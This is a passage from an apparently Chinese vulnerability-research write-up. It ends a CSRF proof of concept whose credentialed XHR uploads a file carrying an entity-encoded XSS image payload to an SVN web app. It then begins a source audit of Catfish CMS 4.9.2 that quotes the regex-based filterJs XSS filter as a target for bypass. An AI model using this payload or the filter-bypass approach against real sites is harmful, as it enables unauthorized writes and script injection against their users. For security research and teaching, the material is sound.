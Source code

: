 ```html
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.9");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9,en;q=0.8,la;q=0.7");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryFqGs6aNB3pRkk9TY\r\n" + 
          "Content-Disposition: form-data; name=\"filepath\"; filename=\"csrf.html\"\r\n" + 
          "Content-Type: text/html\r\n" + 
          "\r\n" + 
          "\x3c&#105;MG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;\x3e\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryFqGs6aNB3pRkk9TY\r\n" + 
          "Content-Disposition: form-data; name=\"comment\"\r\n" + 
          "\r\n" + 
          "File was added remotely\r\n" + 
          "------WebKitFormBoundaryFqGs6aNB3pRkk9TY--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
* 之后，登陆应用后访问该HTML并点击按钮就可以观察到svn已被插入新文件：![csrf](https://fseeeye.oss-cn-hangzhou.aliyuncs.com/blog/20200529CVE/csrf.png)

# PART2: Catfish CMS
工控厂商为了通常需要创建一个官方站点，提供企业信息、新闻、招聘。出于技术原因和开发成本的考量，通常会选用在CMS开发官网。该实例就从CMS的源码审计角度来提供CMS漏洞挖掘的参考。本文采用漏洞应用程序与依赖环境如下：
> * Catfish CMS 4.9.2: http://www.catfish-cms.com
> * Web应用服务器: Catfish官方提供的集成环境 http://www.catfish-cms.com/page/17.html
> * 测试浏览器：Chrome
> * 测试主机系统：macOS Catalina

成熟的CMS一般都存在自己对XSS、SQL注入、CSRF等漏洞的防御方案，这种情况下，纯黑盒测试的效率显然会下降，追求时间的话都会直接对其源码中针对攻击防御的代码片段进行审计，寻找其防御问题，并反向追踪该防御函数适用场景，从而挖掘相关漏洞。下文就以挖掘Catfish CMS的XSS漏洞为例。
* 通过对源码的搜索，可以找到一处XSS过滤的PHP函数：
```php
protected function filterJs($str)
    {
        while(preg_match("/(<script)|(<style)|(<iframe)|(<frame)|(<form)|(<a)|(<object)|(<frameset)|(<bgsound)|(<video)|(<source)|(<audio)|(<track)|(<marquee)/i",$str) || preg_match("/(onabort)|(onactivate)|(onafter)|(onbefore)|(onblur)|(onbounce)|(oncellchange)|(onchange)|(onclick)|(oncont)|(oncopy)|(oncut)|(ondata)|(ondblclick)|(ondeactivate)|(ondrag)|(ondrop)|(onerror)|(onfilter)|(onfinish)|(onfocus)|(onhelp)|(onkey)|(onlayout)|(onlose)|(onload)|(onmouse)|(onmove)|(onpaste)|(onproperty)|(onready)|(onreset)|(onresize)|(onrow)|(onscroll)|(onselect)|(onstart)|(onstop)|(onseek)|(onsubmit)|(ontoggle)|(onunload)/i",$str))
        {
            $str = preg_replace(['/<script[\s\S]*?<\/script[\s]*>/i','/<style[\s\S]*?<\/style[\s]*>/i','/<iframe[\s\S]*?(<\/iframe|\/)[\s]*>/i','/<frame[\s\S]*?(<\/frame|\/)[\s]*>/i','/<form[\s\S]*?>/i','/<object[\s\S]*?(<\/object|\/)[\s]*>/i','/<frameset[\s\S]*?(<\/frameset|\/)[\s]*>/i','/<bgsound[\s\S]*?(<\/bgsound|\/)[\s]*>/i','/<video[\s\S]*?(<\/video|\/)[\s]*>/i','/<source[\s\S]*?(<\/source|\/)[\s]*>/i','/<audio[\s\S]*?(<\/audio|\/)[\s]*>/i','/<track[\s\S]*?(<\/track|\/)[\s]*>/i','/<marquee[\s\S]*?(<\/marquee|\/)[\s]*>/i','/<a[\s\S]*?(<\/a|\/)[\s]*>/i','/on[A-Za-z]+[\s]*=[\s]*[\'|"][\s\S]*?[\'|"]/i','/on[A-Za-z]+[\s]*=[\s]*[^>]+/i'],'',$str);
        }
        $str = str_replace('<!--','&lt;!--',$str);
```